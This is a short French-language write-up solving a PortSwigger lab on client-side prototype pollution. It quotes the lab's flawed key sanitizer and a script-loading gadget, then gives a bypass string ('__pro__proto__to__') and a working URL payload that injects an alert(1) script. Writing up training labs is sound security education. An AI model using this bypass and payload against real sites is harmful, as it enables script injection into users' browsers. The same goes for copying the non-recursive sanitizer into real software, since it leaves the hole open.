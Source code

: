 # Lab

https://portswigger.net/web-security/prototype-pollution/client-side/lab-prototype-pollution-client-side-prototype-pollution-via-flawed-sanitization

## Solution

Il y a une erreur dans la facon de sataniser les paramètres :

```js
function sanitizeKey(key) {
    let badProperties = ['constructor','__proto__','prototype'];
    for(let badProperty of badProperties) {
        key = key.replaceAll(badProperty, '');
    }
    return key;
}
```

Si on passe `__pro__proto__to__` comme paramètre, la fonction `sanitizeKey` va le transformer en `__proto__`.

Ensuite on peut utiliser la pollution pour exploiter l'insertion de `script` :

```js
async function searchLogger() {
    let config = {params: deparam(new URL(location).searchParams.toString())};
    if(config.transport_url) {
        let script = document.createElement('script');
        script.src = config.transport_url;
        document.body.appendChild(script);
    }
    if(config.params && config.params.search) {
        await logQuery('/logger', config.params);
    }
}
```

On peut donc utiliser la payload suivante :

```
?__pro__proto__to__[transport_url]=data:,alert(1);
```